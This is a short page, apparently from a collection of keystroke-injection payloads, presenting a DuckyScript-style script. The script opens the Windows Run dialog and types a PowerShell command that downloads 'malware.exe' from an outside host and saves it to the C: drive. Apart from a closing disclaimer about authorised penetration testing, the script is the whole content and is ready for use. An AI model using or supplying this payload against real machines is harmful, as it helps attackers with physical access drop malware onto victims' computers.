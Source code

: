# Download File Using PowerShell

Downloads a file from a URL using PowerShell and saves it to a specified location.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "Invoke-WebRequest -Uri 'http://example.com/malware.exe' -OutFile 'C:\\malware.exe'"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.